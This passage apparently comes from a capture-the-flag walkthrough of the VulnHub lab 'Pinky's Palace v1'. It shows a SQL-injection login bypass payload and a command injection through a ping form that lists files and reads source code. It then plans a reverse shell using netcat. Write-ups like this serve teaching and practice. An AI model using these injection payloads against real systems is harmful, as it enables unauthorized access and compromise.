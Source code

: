 If we type in random credentials we are redirected to `/login.php` with the textual output:

``` text
Incorrect Username or Password
```

This looks like a possible `SQL-injection` vulnerability. I tested some login tricks from this sql [cheat sheet] and eventually found one:

``` text
username = "user' or 1=1#"
password = "pass"
```

Typing `username` and `password` in manually and sending this `post` will redirect us to `/1337pinkyssup3rs3cr3tlair/index.html`:

![image-title-here](/static/img/ping.png){:class="img-responsive"}

Lets type in `localhost` maybe we get some useful hint/error.

``` text
PING localhost(localhost (::1)) 56 data bytes
64 bytes from localhost (::1): icmp_seq=1 ttl=64 time=0.018 ms
64 bytes from localhost (::1): icmp_seq=2 ttl=64 time=0.056 ms
64 bytes from localhost (::1): icmp_seq=3 ttl=64 time=0.031 ms
64 bytes from localhost (::1): icmp_seq=4 ttl=64 time=0.030 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3051ms
rtt min/avg/max/mdev = 0.018/0.033/0.056/0.015 ms
```

We are redirected to `mau.php` and it prints a sequence of 4 subsequent pings to `localhost`. Looks like there is some `bash` involved or maybe it is just a redirect of `stdout`. Lets see if it is vulnerable to injection other commands.
What about inserting: \\
`localhost; ls -al; whoami; cat mau.php`

``` text
[...]
drwxr-xr-x 2 root root 4096 Jan 14 03:28 .
drwxr-xr-x 7 root root 4096 Jan 14 04:38 ..
-rw-r--r-- 1 root root  400 Jan 14 02:55 index.html
-rw-r--r-- 1 root root  146 Jan 14 01:41 mau.php
www-data
$output
"; } ?>
```
Seems like we were right - it is just a redirect.
Now we can inject a reverse shell from the cheat sheet from [pentestmonkeys] to gain a working shell on our attacking machine kali. Inside kali we have to use `netcat` to listen for incoming conections:
- `-n, --dont-resolve  numeric-only IP addresses, no DNS`
- `-l, --listen  listen mode, for inbound connects`
- `-v, --verbose  verbose (use twice to be more verbose)`
- `-p, --local-port=NUM  local port number`


[VulnHub]: https://www.vulnhub.com/entry/pinkys-palace-v1,225/
[Youtube]: https://www.youtube.com/watch?v=EEgpHGe7euU
[cheat sheet]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[pentestmonkeys]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[dirbusted]: https://tools.kali.org/web-applications/dirbuster
[rebootuser]: https://github.com/rebootuser/LinEnum.git
[stackoverflow]: https://stackoverflow.com/questions/18929149/print-double-quotes-in-shell-programming
[pinkysplanet]: https://pinkysplanet.net/